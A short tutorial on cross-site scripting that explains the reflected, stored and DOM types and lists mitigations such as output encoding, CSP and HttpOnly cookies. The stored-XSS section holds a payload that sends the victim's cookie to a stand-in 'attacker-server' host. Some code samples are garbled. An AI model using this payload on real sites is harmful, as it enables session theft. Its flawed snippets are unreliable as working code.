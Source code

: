 ```yaml
---
title: Cross-site Scripting - known as XSS
date: 2021-06-01 18:28:16
tags: [XSS, Cross-site Scripting, Web Security]
---
```


## Introduction

Cross-site scripting is an attack where some software applications take user's input in an insecure way. This happens via search fields in the web page, survey forms, cookies and other online web forms.

## Reflected XSS

1. The website's results contain malicious scripts.

2. when attacker gives your web application JavaScript tags on input.

   ```html
   <script type="text/javascript">
     alert('Possible XSS');
   </script>
   ```

3. When the above script is returned to the user, browser will execute it, and I can be as simple as crafting a link and inducing a user to click it, which could cause much more dangerous.

## Stored XSS

1. The malicious data is stored permanently on a database and is later accessed and run by the victims without having any knowledge of the attack. The classic example of stored XSS is a malicious scripted inserted by an attacker in a comment field on a blog, Social media, or in a forum post.

2. The script below attempts to load an image from the attacker's server with the victim's cookie data within the request URL.

   ```html
   <script>var+img=new+image();img.src='http://attacker-server/'+document.cookie;</script>
   ```

3. After a request for the image has taken place the attacker can extract the victim's session identifier from the webserver log files.
4. the most famous stored XSS bug was Samy worm which killed Myspace!!

## DOM XSS

1. DOM stands for Document Object Model of the page. 

2. The script below is an example. DOM based XSS where in attacker's payload is executed as a result of modifying the DOM 'environment' in the victims' browser used by the original client-side script so that the client side code runs in an unexpected manner.

   ``` html
   <script>document.write("<b>Current URL</b>" : " document.baseURL);</script>
   ```

## Mitigation of XSS

### Input validation

- We can take parameter from URL or data from text and limit the user Input by using known blacklist. It is difficult to add because everyday hackers coming up with different Polyglots. 

#### Output encoding 

- It is changing input so that it cannot be interpreted as code
- Some HTML encoding rules: 
  - ", &, <, >
- URL encoding/ percent encoding

#### Enable CSP

- Content Security Policy is set by application server to the browser's policy
- Set CSP via HTTP header by the web server

#### Use HTTP only Flag

- set http-only via Set-Cookie HTTP response header

## Some site for learning CSS 

1. Google XSS Game
2. DVWA
3. Burp Academy
4. Pen-tester Lab
